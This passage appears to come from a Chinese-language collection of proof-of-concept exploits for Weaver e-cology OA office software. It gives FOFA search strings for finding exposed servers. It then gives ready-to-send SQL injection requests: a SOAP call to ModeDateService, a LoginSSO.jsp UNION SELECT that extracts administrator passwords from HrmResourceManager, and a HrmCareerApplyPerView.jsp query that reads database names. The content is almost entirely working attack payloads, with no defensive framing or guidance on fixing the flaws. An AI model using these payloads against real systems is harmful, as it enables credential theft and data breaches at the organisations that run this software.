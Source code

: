 app.name=="泛微 e-cology 9.0 OA"  
  
3.poc  
```
POST /services/ModeDateService HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xxx//services/Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaasJ-HspHcxI5r2Krufz; JSESSIONID=aaasJ-HspHcxI5r2Krufz
Connection: close
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: xxx 
Content-Length: 405

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:mod="http://localhost/services/ModeDateService">
   <soapenv:Header/>   
   <soapenv:Body>
      <mod:getAllModeDataCount>
        <mod:in0>1</mod:in0>         
        <mod:in1>1</mod:in1>         
        <mod:in2>1=1</mod:in2>         
        <mod:in3>1</mod:in3>
      </mod:getAllModeDataCount>
  </soapenv:Body>
</soapenv:Envelope>
```  
  
漏洞来源  
- [https://mp.weixin.qq.com/s/2UkeRDbGaW0JGNQLfGSkRw](https://mp.weixin.qq.com/s?__biz=MzkxNjQyMjcwMw==&mid=2247486430&idx=1&sn=9df67b67bf5cd9e8b6554714bef7d21f&scene=21#wechat_redirect)  
  
### 2.1.6泛微E-cology LoginSSO.jsp存在QL注入漏洞  
  
泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。  
(CNVD-2021-33202)  
  
1.fofa  
  
app="泛微-协同办公OA"  
  
2.poc  
  
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager  
### 2.1.7泛微 HrmCareerApplyPerView.jsp sql注入漏洞  
  
GET  
  
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1%20union%20select%201,2,sys.fn_sqlvarbasetostr(db_name()),db_name(1),5,6,7 HTTP/1.1  
  